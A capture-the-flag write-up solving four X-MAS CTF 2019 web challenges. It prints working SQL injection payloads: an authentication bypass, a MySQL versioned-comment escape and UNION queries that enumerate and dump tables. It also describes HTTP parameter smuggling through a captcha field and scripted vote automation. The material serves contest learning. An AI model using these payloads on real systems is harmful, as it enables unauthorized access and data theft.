e<p align="center">

</p>

# X-MAS CTF 2019 Writeup
This repository serves as a writeup for X-MAS CTF 2019

## Sequel Fun

**Category:** Web
**Points:** 25
**Author:** Milkdrop
**Description:**

>So I found this login page, but I forgot the credentials :(

>Remote server: http://challs.xmas.htsp.ro:11006

**Hint:**

> No hint.

<p align="center">

</p>

### Write-up
Sequel is the pronunciation of SQL. So even before starting the task we know what we are going to do: SQL Injection

When you visit the task page, you will get this page

<p align="center">

</p>

Let's try a simple SQL injection using `' or 1 ##` on the username field

<p align="center">

</p>

The result is positive

<p align="center">

</p>

We are doing the job on the right way. Just we need to change the value `1` by `2`: `' or 2 ##`

<p align="center">

</p>

And that's how we get the flag

<p align="center">

</p>

So the flag is ``X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}``
___


## Rigged Election

**Category:** Web
**Points:** 50
**Author:** Milkdrop
**Description:**

>Come one, come all! We've opened up a brand new website that allows the Lapland people to vote the next big town hall project! Just upload your ideas on the platform and vote using your CPU power. We've made sure voting takes a great amount of effort, so there's no easy way to play the system.

>If you are indeed able to vote more than 250 times, you will be congratulated as an active Lapland citizen and receive a prize worthy of this title.

>Remote server: http://challs.xmas.htsp.ro:11001


**Hint:**

>Note: The ideas you post are public and logged, posting any X-MAS flags may disqualify your team

>Note 2: You must send all 250 votes from the same PHP session, otherwise the server will not be able to send you the flag.

<p align="center">

</p>

### Write-up


After we opened the task link, we get this page

<p align="center">

</p>

We can add a comment, we can upvote for a comment and we can downvote for a comment.

When we try to upvote for a comment, it takes too much time to load and sometimes it gets heavier for the CPU.

By viewing the source code of the [index.html page](resources/web-50-rigged_election/index.html) which is the main page for the task, we can see that the downvote/upvote buttons are based on a Javascript ``vote()`` function which is located in the [index.js file](resources/web-50-rigged_election/index.js).

The vote process is done by sending 2 requests to vote.php page:

The first one using GET request to retrieve the 6 characters `work` that we have to create from our side.

The second one using POST request to send the text that leaded us to create the `work`.

After sending the second request, we will get as a response a confirmation if the vote was performed or not.

We have to do all this job 250 times to get the flag. And since generating the `work` needs the MD5 hashing function that is not predictable, we don't have the choice to click on `upvote` 250 times. And this will takes a lot of time so we can't do that manually.

Let's dig more how to automate this job using the web browser's console.

We added a comment "test" as a title and as a content. And we inspected it on the web browser

<p align="center">

</p>

Now, we are going to use the function used to upvote inside a Javascript loop.

By clicking on "Right click" in a web page of the web browser, then "Inspect" and then clicking on the "Console" tab, we paste the vote() function's definition with some changes.

We change this line `location.href = "/";` by this line `console.log(xhttp.responseText);` to keep the same page without reloading (to avoid suspending this script) and to see all the responses inside this console.

And we append the Javascript loop written on the next screenshot

<p align="center">

</p>

Then, we click on "Enter" to start upvoting at least 250 times.

<p align="center">

</p>

How this really work ?

As I said, the first request is done to get the `work` that we need to determine

<p align="center">

</p>

And the second one, for validating the vote using a text that will lead us to the `work`

<p align="center">

</p>

I though that after validating the 250th vote, we will receive the flag in the response but instead of that, when I reloaded the main web page, I saw the flag under the adding comment form

Personnally, I didn't want to burn my laptop. So, I manually converted the index.js script into a [python2.7 script](resources/web-50-rigged_election/solver.py).

By setting the current cookies and the ID of the target comment, when I executed [this script](resources/web-50-rigged_election/solver.py) inside my VPS smoothly without any worries and I get a great result after some hours of sleeping.

If you don't know how to set the ID of the comment, as seen on the previous screenshots, my comment has the ID `14`. And for the cookies, you can find them here

<p align="center">

</p>

You don't have to worry if you have a bad internet connexion because you have already mentionned the cookies that you are going to use.

This is an example of the code execution

<p align="center">

</p>

After that, when you reload the web page (if you are still using the same cookies), you will see the flag.

PS: After the CTF, I was too late to reproduce resolving this task so I can't get the last screenshot with the flag.

So, the flag is `X-MAS{NASA_aint_got_n0thin_on_m3}`.
___


## Roboworld

**Category:** Web
**Points:** 50
**Author:** Milkdrop
**Description:**

>A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(

Can you figure out what's wrong and access the secret files?

>Remote server: http://challs.xmas.htsp.ro:11000

>Files: [leak.py](resources/web-50-roboworld/leak.py)

**Hint:**

>No hint.

<p align="center">

</p>

### Write-up

After we opened the task link, we get this page

<p align="center">

</p>

And by reading the [leak.py](resources/web-50-roboworld/leak.py) file, we can see a hardcoded ``privkey``.

<p align="center">

</p>

And to validate this task, we have to validate the captcha that should be identical to the privkey, we have also to set the hardcoded username and password.

And here, we can see that the validation is done using HTTP requests on localhost server. We can't bypass this process to send the request to the localhost server but as we know, we can trick the HTTP request to erase the privateKey value as we like so that it will be identical to the captcha `SAME_VALUE&privateKey=SAME_VALUE`

This trick will be used in the Captcha checkbox like this:

<p align="center">

</p>

And it really works:

<p align="center">

</p>

Finally, after searching the flag inside these files, we will find it inside the .mp4 file reversed:

<p align="center">

</p>

So, the flag is `X-MAS{Am_1_Th3_R0bot?_0.o}`
___


## Execute No Evil

**Category:** Web
**Points:** 50
**Author:** Milkdrop
**Description:**

>(1) New Message: "Hey dude. So we have this database system at work and I just found an SQL injection point. I quickly fixed it by commenting out all the user input in the query. Don't worry, I made the query so that it responds with boss's profile, since he is kind of the only person actively using this database system, and he always looks up his own name, lol. Anyway, guess we'll go with this til' the sysadmin comes and fixes the issue."

>Huh, so hear no evil, see no evil, ... execute no evil?

>Remote server: http://challs.xmas.htsp.ro:11002

**Hint:**

>No hint

### Write-up

PS: I was too late to take the screenshots so I'm sorry that I can't provide them but I have the source code of the task.

When visiting the main page of the task ([see the source code here](resources/web-50-execute_no_evil/index.php), we can see in the source code that we can visit a secret page under the ``/?source=1`` page.

We can see that we can perform an SQL injection inside this query

```
"SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'"
```

The idea was to close the inline SQL comment `/**/Injected_Query/**/`.

But, as we seen on the previous line, we can't use the wildcard character `*`.

I was hopeless until the last day before 15 minutes of the end of the CTF and I found the clue to jailbreak the inline SQL comment when I used a value that starts with `!`.

After a quick Google search, I find that we can execute an SQL query inside the inline comment using a specific format `/*!32302 Your_Query*/` which is equivalent to `Your_Query` which disables the inline comment.

The first thing that we should do, is keeping the actual SQL query valid using an Union based query. So we should find how much columns are selected (that we are going to retreive using the Union query) so the Union query didn't trigger any error.

Let's take an example:

>`!32302 "ok" or 1 UNION ALL SELECT 1 from information_schema.tables where table_schema=database() or ` -> This will trigger an SQL error

>`!32302 "ok" or 1 UNION ALL SELECT 1,2 from information_schema.tables where table_schema=database() or ` -> This will trigger an SQL error

>`!32302 "ok" or 1 UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database() or ` -> This will work and will show a table containing in each column the values `2` and `3`.

So, the actual SQL query is selecting 3 columns.

I'm gonna explain why this query worked.

The query that worked is fully interpreted like this:

```
SELECT * FROM users WHERE name=/*!32302 "ok" or 1 UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database() or */ 'Geronimo'
```

Which is equivalent to:

```
SELECT * FROM users WHERE name="ok" or 1 UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database() or 'Geronimo'
```

Which is also equivalent to:

```
SELECT * FROM users UNION ALL SELECT 1,2,3 from information_schema.tables where table_schema=database()
```

Now, we are going to extract the names of the tables that are created in the same actual database using this request:

```!32302 "ok" or 1 UNION ALL SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() or ```

We will see on the second column of the table this result: flag,users

So, there is 2 tables: flag and users.

We are more intrested by `flag` table because of its name.

But to extract its data, we have to know which fields we are going to extract:

```
!32302 "ok" or 1 UNION ALL SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='flag' or 
```

We will get as a result: `whatsthis` which is the name of the table's column that we have to extract.

Now, the final move to extract the table's data:

```
!32302 "ok" or 1 UNION ALL SELECT 1,2,group_concat(whatsthis) from flag where 1 or
```

And we will get the flag as a single result.

So, the flag is `X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}`

I solved this task [after the end of the CTF by 13 seconds (see the screenshot)](https://twitter.com/_TheEmperors_/status/1208100853355360258) and I was not able to validate it but I liked how I struggled to find a way how to solve it
___


# Scoreboard

This is my final task on the CTF on the CTF:

<p align="center">

</p>

